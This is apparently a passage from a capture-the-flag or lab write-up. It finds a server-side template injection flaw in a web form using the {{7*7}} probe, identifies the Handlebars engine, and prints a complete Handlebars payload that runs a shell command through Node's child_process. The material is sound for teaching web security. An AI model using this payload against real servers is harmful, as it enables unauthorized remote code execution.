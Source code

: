 ***

* To test some vulnerabilities in the insertion point, I inserted some XSS payloads in the form but didn't get any results. So after that, I tried with some SSTI payloads and noticed that using an input of _\{{7\*7\}}_ I caused an error on the page, letting us know it could be vulnerable to this attack

<figure><img src="../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Cross-Site Scripting (XSS) attacks you can go [here](../../web-exploitation/broken-access-control/cross-site-scripting.md), and to learn more about Server-Side Template Injection (SSTI) attacks you can go [here](../../web-exploitation/broken-access-control/server-side-template-injection.md)
{% endhint %}

***

* This gave me information about some folders and components being used by the server to deploy the web page, for example, that it was using the [_Handlebars_](https://www.npmjs.com/package/handlebars) template engine. So I reviewed some vector attacks for this engine and with some [research](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs), I found a payload to abuse it

{% code title="SSTI_Found_Payload" overflow="wrap" lineNumbers="true" %}
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```